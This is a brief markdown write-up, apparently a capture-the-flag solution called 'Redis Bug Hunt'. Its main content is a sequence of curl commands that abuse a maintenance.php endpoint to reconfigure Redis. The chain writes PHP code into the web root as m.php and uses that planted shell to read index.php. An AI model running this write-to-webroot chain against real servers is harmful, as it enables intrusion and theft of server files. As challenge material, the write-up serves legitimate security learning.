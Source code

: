 # Redis Bug Hunt
Location: Kitchen

The objective is to retrieve the index.php file from the server.

This can be done using these commands:
```
curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html
curl http://localhost/maintenance.php?cmd=config,set,dbfilename,m.php
curl 'http://localhost/maintenance.php?cmd=set,test,<?php%20phpinfo();%20?>'
curl 'http://localhost/maintenance.php?cmd=set,test,<?php%20echo%20file_get_contents("index.php");%20?>'
curl http://localhost/maintenance.php?cmd=save
curl http://localhost/m.php –output -
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbNDc4OTU5MjY3LDczMDk5ODExNl19
-->
